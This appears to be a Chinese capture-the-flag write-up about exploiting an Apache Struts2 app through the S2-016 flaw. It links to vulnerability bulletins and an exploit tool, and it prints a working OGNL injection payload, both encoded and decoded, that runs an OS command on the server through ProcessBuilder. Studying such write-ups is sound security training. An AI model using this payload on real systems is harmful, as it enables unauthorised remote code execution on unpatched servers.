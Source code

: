 ```HTTP
GET /This%20is%20Struts2%20Demo%20APP,%20try%20to%20read%20/flag/flag.txt. HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_151
Host: 103.42.28.252:1234
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

这里提示这是一个Struts2的应用，请尝试去读到这台tomcat服务器的/flag/flag.txt文件，于应该是需要找到Struts2的漏洞

## Struts2

这个JavaWeb的框架被称为漏洞之王，官方发的漏洞公告曾经还贴过漏洞证明，直接演示攻击方法，因此饱受诟病

### 官方漏洞公告

[https://cwiki.apache.org/confluence/display/WW/Security+Bulletins](https://cwiki.apache.org/confluence/display/WW/Security+Bulletins)

### 相关报道

[Struts2再爆远程代码执行漏洞S2-016](http://www.freebuf.com/vuls/11220.html)

[2013 年 7 月的 Struts2 漏洞实际带来多大影响？](https://www.zhihu.com/question/21352003)

[一份数据告诉你，被万年漏洞王 Struts2 坑了的网站有哪些](https://www.leiphone.com/news/201703/8ENseqBCJSpX9wEM.html)

### 漏洞利用

[浅谈struts2历史上的高危漏洞](https://www.secpulse.com/archives/61610.html)

[Struts2漏洞利用工具下载 已更新V1.8版](http://www.shack2.org/article/1374154000.html)

### 本题解法s2-016

本题我们采取s2-016的payload网上找到

```JAVA
http://127.0.0.1:8080/struts2-showcase-2.1.6/showcase.action?redirect%3a%24%7b%23a%3d%28new%20java.lang.ProcessBuilder%28new%20java.lang.String[]%20%7b%27netstat%27,%27-an%27%7d%29%29.start%28%29,%23b%3d%23a.getInputStream%28%29,%23c%3dnew%20java.io.InputStreamReader%20%28%23b%29,%23d%3dnew%20java.io.BufferedReader%28%23c%29,%23e%3dnew%20char[50000],%23d.read%28%23e%29,%23matt%3d%20%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29,%23matt.getWriter%28%29.println%20%28%23e%29,%23matt.getWriter%28%29.flush%28%29,%23matt.getWriter%28%29.close%28%29%7d
```

url解码，格式化一下payload

```JAVA
redirect:${
#a=(new java.lang.ProcessBuilder(new java.lang.String[] {'netstat','-an'})).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader (#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#matt= #context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),
#matt.getWriter().println (#e),
#matt.getWriter().flush(),
#matt.getWriter().close()
}
```
